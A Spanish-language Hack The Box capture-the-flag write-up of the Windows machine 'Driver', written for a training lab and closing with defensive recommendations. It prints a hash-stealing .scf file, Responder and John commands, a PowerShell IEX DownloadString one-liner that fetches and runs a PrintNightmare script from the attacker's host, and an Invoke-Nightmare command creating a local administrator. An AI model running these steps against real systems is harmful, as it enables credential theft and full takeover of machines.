# Driver — Hack The Box

**Plataforma:** Hack The Box
**Dificultad:** 🟢 Fácil
**SO:** Windows
**Autor de la máquina:** No confirmado en las capturas (dato de HTB no verificado con certeza)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · Autenticación básica HTTP (credenciales por defecto) · Subida de fichero `.scf` malicioso · Captura de hash NTLMv2 con Responder · John the Ripper · Evil-WinRM · WinPEAS · **CVE-2021-1675 (PrintNightmare)** → Administrator

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración web — panel de firmware con credenciales por defecto](#2-enumeración-web--panel-de-firmware-con-credenciales-por-defecto)
3. [Acceso inicial — captura de hash NTLM con un fichero `.scf`](#3-acceso-inicial--captura-de-hash-ntlm-con-un-fichero-scf)
4. [Obtención de shell y escalada — PrintNightmare (CVE-2021-1675)](#4-obtención-de-shell-y-escalada--printnightmare-cve-2021-1675)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)

---

## 1. Reconocimiento

```bash
ping -c 1 10.129.69.136
```


TTL de **127** → sistema **Windows**.

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.69.136 -oN AllPorts
```




Cuatro puertos abiertos: **80** (http), **135** (msrpc), **445** (smb) y **5985** (winrm). Escaneo de versión:

```bash
nmap -sS -Pn -sCV -T5 -n -p80,135,445,5985 -oN Ports 10.129.69.136
```


| Puerto | Servicio | Detalle |
|--------|----------|---------|
| 80 | Microsoft IIS 10.0 | Autenticación **Basic**, realm `MFP Firmware Update Center` |
| 135 | Microsoft Windows RPC | — |
| 445 | microsoft-ds | Firmado SMB **habilitado pero no obligatorio** |
| 5985 | WinRM | Microsoft HTTPAPI |

> 💡 Hostname **`DRIVER`** confirmado por el propio escaneo — una pista bastante directa sobre hacia dónde puede ir la escalada de privilegios (controladores/drivers de impresora).

## 2. Enumeración web — panel de firmware con credenciales por defecto

El puerto 80 pide autenticación HTTP básica:


Probamos credenciales triviales — **`admin:admin`** — y funcionan. Accedemos al **"MFP Firmware Update Center"**, un portal ficticio para que técnicos suban actualizaciones de firmware/drivers de impresoras multifunción:



La sección **"Firmware Updates"** permite subir un fichero, indicando que **"nuestro equipo de pruebas revisará las subidas manualmente"**:



> 💡 Ese aviso de revisión manual es la pista clave: alguien (un humano, no un script automático) va a **abrir/examinar** el fichero que subamos desde su propio equipo Windows. Eso es exactamente lo que necesitamos para el siguiente paso.

## 3. Acceso inicial — captura de hash NTLM con un fichero `.scf`

### ¿Qué es un `.scf` y por qué funciona este ataque?

Un fichero **`.scf`** (**Shell Command File**) es un formato antiguo de Windows Explorer que permite un conjunto muy limitado de acciones — básicamente, mostrar el escritorio o abrir una ventana de Explorer. Su campo interesante es `IconFile`: le dice a Windows **dónde tiene que ir a buscar el icono** que debe mostrar para ese fichero en la vista de carpeta.

El problema es que ese campo acepta una ruta **UNC** (de red), del estilo `\\IP\recurso\icono.ico`. Cuando alguien abre con el Explorador de Windows la carpeta donde está guardado ese `.scf` (ni siquiera hace falta hacer doble clic sobre el propio fichero: **basta con que Explorer lo liste para generar la miniatura/icono**), Windows intenta conectarse automáticamente por **SMB** a esa ruta de red para descargar el icono.

Y ahí está la clave: **toda conexión SMB en Windows se autentica automáticamente** con las credenciales del usuario que tiene la sesión abierta (a menos que se indique lo contrario), usando el protocolo **NTLM**. Si el recurso `\\IP\recurso` al que apunta el `.scf` no existe de verdad, pero hay algo escuchando en ese puerto **fingiendo ser un servidor SMB legítimo**, ese "algo" puede capturar el intento de autenticación completo — usuario, dominio, y un **hash NTLMv2** de la contraseña (no la contraseña en texto plano, pero sí un valor que se puede intentar crackear offline).

En resumen: **subir un `.scf` a un recurso donde alguien vaya a mirarlo con el Explorador, apuntando su icono a una máquina nuestra, obliga a esa persona a "autenticarse" contra nosotros sin que se dé cuenta** — no hace falta que ejecute nada, ni que haga clic en nada; con que Windows liste la carpeta ya es suficiente.

Creamos el fichero, basándonos en la referencia de [pentestlab.blog](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/):


```ini
[Shell]
Command=2
IconFile=\\10.10.15.31\share\test.ico
[Taskbar]
Command=ToggleDesktop
```

> 🛠️ `Command=2` e `IconFile=` son las dos claves relevantes del formato `.scf`: la primera indica la acción (abrir Explorer), la segunda es la que fuerza la petición de red al intentar resolver el icono. El resto (`[Taskbar]`, `ToggleDesktop`) es ruido heredado de la plantilla original, sin relevancia para el ataque.

### ¿Qué hace Responder aquí?

**Responder** es una herramienta que se pone a **escuchar en la red** simulando ser distintos servicios (SMB, LLMNR, NBT-NS, entre otros) y, cuando otra máquina intenta autenticarse contra uno de esos servicios falsos, **captura el intercambio de autenticación NTLM completo** — incluyendo el hash NTLMv2 — sin necesidad de conocer ninguna credencial de antemano. Es exactamente el "servidor SMB falso" que necesitamos para que la petición generada por el `.scf` tenga alguien esperando al otro lado.

La levantamos apuntando a nuestra interfaz VPN de HTB:

```bash
sudo responder -w -I tun0
```

> 🛠️ **`-w`** activa el servidor WPAD (no relevante aquí, pero forma parte del arranque estándar de Responder); **`-I tun0`** indica en qué interfaz de red escuchar — la de la VPN de HTB, por donde nos llegará el tráfico de la víctima.



Subimos el `.scf` a través del formulario de "Firmware Updates". En cuanto el "equipo de pruebas" (el proceso automatizado/humano de la máquina) revisa el fichero subido, Windows intenta resolver el icono contra nuestra IP, y Responder captura la autenticación:



```
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:d0cd35208944a333:...
```

Guardamos el hash completo en un fichero:


### Crackeando el hash

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```



La contraseña cae casi al instante:

```
tony:liltony
```

Con estas credenciales, nos conectamos por WinRM (puerto 5985, detectado al inicio):

```bash
evil-winrm -i 10.129.69.136 -u 'tony' -p 'liltony'
```


Acceso confirmado como `tony`.

## 4. Obtención de shell y escalada — PrintNightmare (CVE-2021-1675)

Subimos **WinPEAS** para automatizar la búsqueda de vectores de escalada:



```
upload "/ruta/local/winPEASx64.exe"
```

> 🛠️ **`upload`** es un comando propio de **Evil-WinRM** (no de PowerShell): transfiere un fichero desde la máquina atacante a la víctima a través de la propia sesión WinRM ya autenticada, sin necesidad de montar un servidor SMB/HTTP adicional.



Lo ejecutamos:

```
.\winPEASx64.exe
```


Entre los hallazgos, en la lista de puertos y procesos en escucha aparece **`spoolsv`** (el servicio de cola de impresión de Windows, *Print Spooler*):


> 💡 El propio nombre de la máquina, **"Driver"**, combinado con un servicio de impresión activo, es una pista bastante directa hacia **PrintNightmare (CVE-2021-1675 / CVE-2021-34527)**, una vulnerabilidad crítica de 2021 en el servicio de cola de impresión de Windows que permite ejecución de código (y en muchos casos, escalada directa a SYSTEM/Administrator) al cargar un driver de impresora malicioso sin las comprobaciones de firma adecuadas.

Clonamos una implementación pública del exploit:

```bash
git clone https://github.com/calebstewart/CVE-2021-1675.git
```


El repositorio incluye `CVE-2021-1675.ps1` (el script de PowerShell con la función `Invoke-Nightmare`) y una carpeta `nightmare-dll` con la DLL maliciosa que se generará dinámicamente.

Servimos el directorio del exploit desde un servidor que además acepta subidas, por si hiciera falta:

```bash
python3 -m uploadserver 8080
```

> 🛠️ **`uploadserver`** es un módulo de Python (una extensión del clásico `http.server`) que, además de servir ficheros por HTTP como el `http.server` habitual, expone un endpoint `/upload` para **recibir** ficheros — útil cuando se necesita tanto entregar herramientas a la víctima como recibir de vuelta algo generado allí.



### Descarga y ejecución en memoria del exploit

Desde la sesión de Evil-WinRM (como `tony`), descargamos y ejecutamos el script **directamente en memoria**, sin guardarlo antes en disco:

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.10.15.31:8080/CVE-2021-1675.ps1')
```

> 🛠️ **Desglose de este one-liner, muy habitual en post-explotación de Windows:**
> - **`New-Object Net.WebClient`** crea un objeto .NET capaz de hacer peticiones HTTP (el equivalente en PowerShell a `curl`/`wget`).
> - **`.DownloadString('URL')`** descarga el contenido de esa URL como **texto** (no como fichero en disco) — en este caso, todo el código PowerShell de `CVE-2021-1675.ps1`.
> - **`IEX`** (*Invoke-Expression*) toma ese texto y lo **ejecuta como si fueran comandos de PowerShell**, en la sesión actual.
>
> El efecto conjunto es: "trae este script por HTTP y ejecútalo ahora mismo, sin dejar ningún fichero `.ps1` escrito en el disco de la víctima". Es una técnica clásica para minimizar el rastro forense (nada que un antivirus basado en firmas de fichero pueda escanear en reposo) y para no depender de tener que subir el fichero por partes. Tras ejecutar esta línea, la función `Invoke-Nightmare` del script queda cargada en la sesión y lista para usarse.

Con la función ya disponible, ejecutamos el exploit indicando qué driver "falso" registrar y qué usuario crear:

```powershell
Invoke-Nightmare -DriverName "Xerox" -NewUser "arabot" -NewPassword "Arabot123"
```


```
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\...\ntprint.inf_amd64_...\Amd64\mxdwdrv.dll"
[+] added user arabot as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```

> 💡 `Invoke-Nightmare` automatiza todo el exploit: genera una DLL maliciosa, abusa de la API del Print Spooler (`RpcAddPrinterDriverEx`) para cargarla con privilegios de **SYSTEM** sin las validaciones de firma que deberían aplicarse, usa esos privilegios para crear una cuenta de usuario nueva y añadirla directamente al grupo de **Administradores locales**, y finalmente borra la DLL usada para no dejar rastro en disco.

Confirmamos que el usuario se ha creado:

```powershell
net user
```


## 5. Post-explotación y flags

Nos conectamos con las nuevas credenciales de administrador:

```bash
evil-winrm -i 10.129.69.136 -u 'arabot' -p 'Arabot123'
```



Confirmamos los privilegios:

```powershell
whoami /groups
```


`BUILTIN\Administrators` aparece listado como grupo con `Group owner` — acceso de administrador confirmado.

```powershell
cd C:\Users\Administrator
pwd
```



El compromiso total del sistema queda acreditado con el acceso al perfil de Administrator. Las capturas disponibles no incluyen la lectura explícita del contenido de `user.txt` ni `root.txt`, por lo que no se documentan aquí sus valores.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| Credenciales por defecto (`admin:admin`) en un panel de administración expuesto | Portal "MFP Firmware Update Center" | Punto de entrada trivial sin necesidad de explotar nada técnico |
| Subida de ficheros sin restricción de tipo, revisados manualmente en un entorno Windows | Formulario de subida de firmware | Permite el clásico ataque de captura de hash NTLM vía `.scf` en cuanto alguien examina el fichero con el Explorador |
| Firmado SMB no obligatorio | Puerto 445 | Facilita ataques de relay/captura de NTLM (aunque aquí se explota directamente la captura, no un relay) |
| Servicio Print Spooler activo y sin parchear frente a PrintNightmare | `spoolsv.exe` | Ejecución de código como SYSTEM y creación de administradores locales sin necesidad de credenciales adicionales |

## Recomendaciones defensivas

- Cambiar inmediatamente cualquier credencial por defecto en paneles de administración.
- Restringir los tipos de fichero permitidos en formularios de subida, y nunca abrir/previsualizar ficheros subidos por terceros con un cliente de escritorio completo (usar un entorno aislado o herramientas específicas de análisis).
- Deshabilitar el firmado SMB "no obligatorio" y exigirlo siempre que sea posible.
- Bloquear salida SMB hacia IPs no confiables desde estaciones de trabajo que procesan contenido externo.
- Aplicar los parches de Microsoft para PrintNightmare (CVE-2021-1675 / CVE-2021-34527) o, si no es posible, deshabilitar el servicio Print Spooler en servidores que no lo necesiten.
- Auditar periódicamente qué cuentas pertenecen al grupo de Administradores locales.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
